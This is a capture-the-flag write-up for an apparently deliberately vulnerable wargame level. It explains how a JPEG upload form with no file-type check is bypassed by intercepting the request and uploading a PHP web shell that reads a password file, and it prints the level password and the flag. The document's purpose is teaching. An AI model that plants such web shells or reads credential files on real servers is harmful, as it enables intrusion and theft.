 **PW:** EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

Upon login we are given a screen that allows uploading of JPEG files (max 1KB).
Looking at the source code, I found a few funtions that looked strange.

```
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}
```

This function creates a random string and returns it to:

```
function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```

One interesting thing I noticed is that although the file name is being changed, there is no protection for file types.
You can upload essentially any file type.
We can use what we've learned in the past couple levels to send a PHP file to the server.

The script we will use is:
```
<?
passthru("cat /etc/natas_webpass/natas13");
?>
```

This allows us to remotely execute a ```cat``` command, and grab the natas13 password.

The only thing stopping us from doing this is this line:
```
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
Which messes with our file name by appending a .jpg to the end. To circumvent this we need something like Burp Suite to intercept the file name before it is sent to the server.
After a bit of googling and playing around with Burp Suite, I was able to successfully intercept the request and change the file name to ```php_injection.php```.
I then forward the package and click on the link provided. This executes the code and returns the flag.

**Flag:** jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
